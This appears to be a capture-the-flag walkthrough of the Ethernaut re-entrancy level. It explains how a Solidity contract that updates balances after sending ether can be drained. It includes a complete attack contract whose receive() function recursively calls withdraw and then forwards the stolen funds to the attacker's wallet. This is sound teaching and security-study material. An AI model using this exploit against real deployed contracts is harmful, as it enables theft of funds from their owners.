 ***Re-entrancy***

The goal of this level is for you to steal all the funds from the contract.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
  
  using SafeMath for uint256;
  mapping(address => uint) public balances;

  function donate(address _to) public payable {
    balances[_to] = balances[_to].add(msg.value);
  }

  function balanceOf(address _who) public view returns (uint balance) {
    return balances[_who];
  }

  function withdraw(uint _amount) public {
    if(balances[msg.sender] >= _amount) {
      (bool result,) = msg.sender.call{value:_amount}("");
      if(result) {
        _amount;
      }
      balances[msg.sender] -= _amount;
    }
  }

  receive() external payable {}
}
```

Firstly, we know we'll need our contract to call `withdraw()` and `donate`. Let's make sure we can do that before we begin.

Let's launch an instance and load this into Remix. We'll need to get a copy of openzeppelin's safeMath library, which we can find on their github. It took a bit of digging, but I've added the version found here: https://github.com/OpenZeppelin/openzeppelin-contracts/blob/56de324afea13c4649b00ca8c3a3e3535d532bd4/contracts/math/SafeMath.sol

![Alt text](safeMath.jpg)

Notice I've renamed it `math.sol` in both the directory and the import statement.

That's one way to access the functions of a target contract, but I'll show you an easier approach as well.

We'll create an interface for two functions we'll need to call in the target contract:

```
function donate(address _to) external payable;
function withdraw(uint _amount) external;

targetContract = targetInterface(_targetAddr);
targetInterface targetContract;
```

Now when we create a contract interface in our hacking contract, we can call the functions of the target contract without having to import it.

![Alt text](deployments.jpg)

The goal for any re-entrancy attack is generally to abuse a contract that's interacting with another contract, then changing some value. For example, in this challenge, the withdraw function does the following:

**`withdraw()`**:
1. check to make sure the sender has some funds to withdraw
2. send some funds
3. decrease the sender's balance

but remember that a smart contract can execute a function upon recieving funds. What if when our contract recieved the funds, we called `withdraw()` again?

**`withdraw()`**:
1. check to make sure the sender has some funds to withdraw
2. ***send some funds***
   1. check to make sure the sender has some funds to withdraw
   2. ***send some funds***
      1. check to make sure the sender has some funds to withdraw
      2. ***send some funds***...

lmao. let's do that.

Below is the completed code of the `hack.sol` contract:

```
// SPDX-License-Identifier: MIT
pragma solidity 0.6.12;

interface targetInterface {
    function donate(address _to) external payable;
    function withdraw(uint _amount) external;
}

contract Hack {
    address public owner;
    targetInterface targetContract;
    uint targetValue = 1000000000000000;

    constructor(address _targetAddr) public {
        targetContract = targetInterface(_targetAddr);
        owner = msg.sender;
    }

    function extractFunds() external payable{
      require(msg.sender==owner, "You are not the owner");
      (bool sent,) = owner.call{value: address(this).balance}("");
        require(sent, "Failed to send Ether");
    }

    function donate() external payable{//0xed88c68e, web3.utils.sha3 -> first 8 chars after 0x
      require(msg.value >= targetValue);
      targetContract.donate{value:msg.value}(address(this));
    }

    function withdraw() external{
      targetContract.withdraw(targetValue);
    }

    receive() external payable{
      if(msg.sender==address(targetContract)){
        if(address(targetContract).balance>=targetValue){
        targetContract.withdraw(targetValue);
        }
      }
    }
}
```

We'll start by calling `donate()` with the ethernaut command-line tools. This sends some ETH to the target contract, increasing the total balance of the target contract to 0.002 ETH and granting our hacking contract the right to withdraw up to 0.001 ETH.

Next, when we call `withdraw()`, the target contract will return our 0.001 ETH, triggering the `recieve()` function that then again requests a withdraw. Because the target contract hasn't yet decremented the balance of our hacking contract, we're allowed a second, malicious withdraw that empties the target contract.

We can now `extractFunds()`, returning the ether we've gained to our own wallet.

![Alt text](callingDonate.jpg)
